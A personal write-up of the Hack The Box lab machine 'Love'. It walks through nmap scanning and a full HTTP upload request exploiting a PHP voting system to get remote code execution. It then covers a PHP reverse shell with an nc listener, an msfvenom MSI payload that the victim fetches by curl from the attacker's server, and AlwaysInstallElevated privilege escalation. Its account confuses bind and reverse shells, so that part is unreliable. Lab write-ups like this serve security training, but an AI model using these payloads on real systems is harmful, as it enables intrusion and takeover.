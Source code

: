 ```yaml
---
title: Hack The Box: Love
permalink: /HTB/Love
---
```

# Love Writeup 
Love is an easy level box on HackTheBox and took quite some time for me to solve as it was the second box that I have tried to solve. It was pretty interesting to solve and I learned some new exploit methods that I could try to use later.

# Walkthrough
First I performed an nmap scan using `nmap -p- <box ip>`. This first identifies the ports in use. You can follow this up with `nmap -sV -sC -A --script=vuln <box ip> -p x,y,z > file.txt` to get a more indepth scan of those running ports and the system itself, but I was too lazy to do that. This second command will also write the results of the scan to a `file.txt` in your current directory so you could reference the scan again later, if necessary. The result of my initial nmap scan showed me that http was running:
![Image](https://github.com/susMdT/nigerald.github.io/blob/gh-pages/images/love%20(1).png?raw=true)  
<br />
<br />
Accessing the website I notice that it's titled "Voting System using PHP", so I try to find out if theres an existing exploit for it.
![Image](https://github.com/susMdT/nigerald.github.io/blob/gh-pages/images/love%20(2).png?raw=true)
![Image](https://github.com/susMdT/nigerald.github.io/blob/gh-pages/images/love%20(3).png?raw=true)
<br />
<br />
Accessing the exploit-db link shows an exploit that I can use. Based on the title, it's an exploit for unauthenticated remote code execution, meaning that if it works, I can execute code on the web server without needed any sort of credentials. Further explanation on the vulnerability can be found at:  https://www.cybersecurity-help.cz/vdb/SB2021050511. According to this resource, Unauthenticated RCE is achieved through uploading php files that will be run by the server and stored at the `/images/`directory. The exploit is a in the form of a HTTP POST request
```markdown
POST /admin/candidates_add.php HTTP/1.1
Host: 192.168.1.1
Content-Length: 275
Cache-Control: max-age=0
Origin: http://192.168.1.1
Upgrade-Insecure-Requests: 1
DNT: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryrmynB2CmGO6vwFpO
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.1.1/admin/candidates.php
Accept-Encoding: gzip, deflate
Accept-Language: de-DE,de;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close

------WebKitFormBoundaryrmynB2CmGO6vwFpO
Content-Disposition: form-data; name="photo"; filename="shell.php"
Content-Type: application/octet-stream

<?php echo exec("whoami"); ?>

------WebKitFormBoundaryrmynB2CmGO6vwFpO
Content-Disposition: form-data; name="add"
```

Reading this post request, if I change the php code being used as the payload (near the bottom, between the angle brackets), I could potentially send a php code for a reverse shell. I decided to use  https://www.revshells.com to generate a PHP Ivan Sincek reverse shell under the IP of my machine and port 4444 (personal preference). I copy and pasted the shell generated from the site and replaced the payload. After sending the post request in Burp, I checked to see it worked.
![Image](https://github.com/susMdT/nigerald.github.io/blob/gh-pages/images/love%20(5).png?raw=true)
![Image](https://github.com/susMdT/nigerald.github.io/blob/gh-pages/images/love%20(7).png?raw=true)
<br />
<br />
Note that I replaced the red `//` in the burp picture with the Ivan Sincek php code. And we can see that it worked. All we have to do now is set up a listener on port 4444 and click the the link to our php code in the `/images/` directory. I set up a listener by running `nc -nvlp 4444` and then clicking `a.php` gives me:
<br />
![Image](https://github.com/susMdT/nigerald.github.io/blob/gh-pages/images/love%20(8).png?raw=true)
<br />
<br />
Sweet, and we're in a Windows machine. Let's check something simple; is AlwaysInstallElevated on? What this policy does is that, if it's on (we can check the registry), it will install any `.msi` files with SYSTEM level privileges. Running the `REG QUERY HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated` will tell us if its enabled.
![Image](https://github.com/susMdT/nigerald.github.io/blob/gh-pages/images/love%20(9).png?raw=true)
<br />
<br />
The 0x1 means that the policy is turned on. It's too lit. To abuse this, we can create a malicious msi file that will give us a bind shell, granting us remote access of the machine. Whereas in a remote shell we open a port on our attacking machine and the victim connects to us, a bind shell will have a port open up on the victim while we connect to it. This sounds complicated, but we can use msfvenom to generate it very easily. Running the command `msfvenom -p windows/meterpreter/reverse_tcp LHOST=<your ip> LPORT=<port>-f msi > robux.msi` will create the payload. 
![Image](https://github.com/susMdT/nigerald.github.io/blob/gh-pages/images/love%20(11).png?raw=true)
<br />
<br />
We can then set up a http server on our machine that our victim will access to download the file using curl. Run `python3 -m http.server` and `curl <my machine ip>:<port number><path to payload> --output <filename>` on the respective machines. I ran `curl`  in the `\images` so I could just refresh the webpage to see if my payload was uploaded (however you could just use `dir` to check on the reverse shell)
![Image](https://github.com/susMdT/nigerald.github.io/blob/gh-pages/images/love%20(12).png?raw=true)
![Image](https://github.com/susMdT/nigerald.github.io/blob/gh-pages/images/love%20(14).png?raw=true)
<br />
<br />
Now lets check if our payload is there.
![Image](https://github.com/susMdT/nigerald.github.io/blob/gh-pages/images/love%20(15).png?raw=true)
<br />
<br />
Robux op. Before we run this, we have to remember that we're using a bind shell so we have to connect to the listener that will be active once we run our payload.
